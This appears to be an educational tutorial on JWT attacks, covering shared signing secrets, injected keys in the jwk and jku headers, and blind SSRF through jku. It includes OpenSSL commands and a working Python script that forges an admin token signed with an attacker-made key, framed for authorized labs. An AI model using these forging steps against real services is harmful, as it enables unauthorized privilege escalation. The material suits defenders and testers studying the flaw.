

JWT implementations can be vulnerable to more than algorithm confusion or weak signature validation. Other attack vectors include reusing signing secrets across applications and incorrectly trusting public keys supplied through the `jwk` and `jku` header parameters.

These vulnerabilities arise when applications fail to properly validate the origin of a token, the signing key, or the claims used for authorization.

---

## Reusing JWT Secrets

### Shared signing secrets across applications

When an organization operates multiple web applications that use JWTs, each application should have its own signing keys or secrets. Reusing the same secret across applications can allow a token issued by one application to be accepted by another.

This becomes particularly dangerous when applications assign different privileges to the same user.

For example, consider two applications:

- `socialA.test`: a user has the `moderator` role.
    
- `socialB.test`: the same user has only the `user` role.
    

If both applications use the same HMAC signing secret and `socialB.test` accepts tokens issued by `socialA.test` without checking their intended audience or issuer, the moderator token may be accepted by the second application.

```
{
  "sub": "student01",
  "role": "moderator"
}
```

The signature remains valid because both applications share the same secret. If the receiving application trusts the role claim, the user may obtain unauthorized privileges.


---

## Exploiting jwk

### Public keys embedded in JWT headers

The `jwk` header parameter stands for **JSON Web Key**. It can contain the public key corresponding to the private key used to sign a JSON Web Signature (JWS).

With asymmetric algorithms such as `RS256`, the private key signs the token, while the corresponding public key verifies the signature.

A JWT header may contain a JWK such as:

```
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "n": "PUBLIC_KEY_MODULUS",
    "e": "AQAB"
  }
}
```

Here, `kty` identifies the key type, while `n` and `e` represent the RSA public modulus and exponent. The example uses placeholders rather than a usable public key.

The presence of `jwk` is not inherently vulnerable. The problem occurs when an application trusts an arbitrary public key supplied by the client instead of verifying the token against a trusted key.

### Attack mechanics

If the server accepts attacker-controlled verification keys, an attacker may generate an RSA key pair, sign a modified JWT with their private key, and include the corresponding public key in the `jwk` header.

For example, suppose the original payload is:

```
{
  "sub": "student01",
  "isAdmin": false
}
```

The attacker changes the authorization claim:

```
{
  "sub": "student01",
  "isAdmin": true
}
```

The attacker then signs the modified token using their private key and includes their public key in the header. If the backend uses that supplied key without validating its trustworthiness, it may accept the forged signature.

### Generating an RSA key pair

In an authorized lab, OpenSSL can generate the key pair:

```
openssl genpkey \
  -algorithm RSA \
  -out exploit_private.pem \
  -pkeyopt rsa_keygen_bits:2048
```

Extract the corresponding public key:

```
openssl pkey \
  -in exploit_private.pem \
  -pubout \
  -out exploit_public.pem
```

The private key is used to sign tokens; the public key is used to verify them.

### Building and inspecting the JWT

Next, a JWT library can convert the public key into JWK format and include it in the header. For example, using PyJWT and `python-jose`:

```python
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization
from jose import jwk
import jwt

# JWT Payload
jwt_payload = {'user': 'user', 'isAdmin': True}

# convert PEM to JWK
with open('exploit_public.pem', 'rb') as f:
    public_key_pem = f.read()
public_key = serialization.load_pem_public_key(public_key_pem, backend=default_backend())
jwk_key = jwk.construct(public_key, algorithm='RS256')
jwk_dict = jwk_key.to_dict()

# forge JWT
with open('exploit_private.pem', 'rb') as f:
    private_key_pem = f.read()
token = jwt.encode(jwt_payload, private_key_pem, algorithm='RS256', headers={'jwk': jwk_dict})

print(token)
```

We can run it after installing the required dependencies:

```bash
uv init
uv add pyjwt cryptography python-jose

uv run exploit.py 
<output_jwt>
```

Then, we can verify that the JWT has been generated correctly and that the desired payload claims have been modified.



Finally, we can send a request to the application using the crafted JWT to test whether it grants administrative privileges.

---

## Exploiting jku

### Remote JWK Set references

The `jku` header parameter stands for **JWK Set URL**. Unlike `jwk`, which embeds a public key in the JWT header, `jku` provides a URL pointing to a JSON Web Key Set (JWKS) containing public keys.

For example:

```
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://keys.example.org/jwks.json"
}
```

The referenced endpoint may return a JWKS document containing one or more public keys:

```
{
  "keys": [
    {
      "kty": "RSA",
      "kid": "key-01",
      "use": "sig",
      "alg": "RS256",
      "n": "PUBLIC_KEY_MODULUS",
      "e": "AQAB"
    }
  ]
}
```

The `kid` parameter identifies a key within a set. The public key's RSA components are represented by `n` and `e`.

### Attack mechanics

The attack follows the same trust failure as the `jwk` attack, but the public key is hosted remotely.

If an application retrieves keys from an arbitrary URL supplied in the JWT header, an attacker may host a JWKS containing their own public key and point `jku` to that endpoint.

The attacker can then sign a modified token with the corresponding private key. If the backend retrieves and trusts the attacker's key without enforcing an approved key source, it may accept the forged token.

The essential difference is where the public key is obtained:

|Parameter|Key location|
|---|---|
|`jwk`|Embedded directly in the JWT header|
|`jku`|Retrieved from a URL referenced in the JWT header|

### Identifying the vulnerability

Inspect the JWT header for a `jku` field and determine whether the backend retrieves keys from the referenced URL.

In an authorized test, verify whether the application restricts key retrieval to trusted hosts and whether changing the URL to an untrusted endpoint affects signature verification.

A `jku` parameter alone does not prove a vulnerability. Applications may legitimately use remote JWKS endpoints, provided the trusted issuer and key source are configured independently of untrusted token input.

### Advanced technique: Blind GET-based SSRF

Incorrect handling of `jku` can also introduce a potential **Server-Side Request Forgery (SSRF)** vulnerability.

If the backend makes an HTTP GET request to the URL specified by the token, an attacker may attempt to make the server contact an unintended destination. This can include internal services if outbound requests are not properly restricted.

In a blind SSRF scenario, the attacker may not receive the HTTP response directly. Instead, they infer whether the request occurred through observable side effects, such as requests reaching a controlled endpoint or differences in application behavior.

Testing should remain within authorized scope and use controlled endpoints.

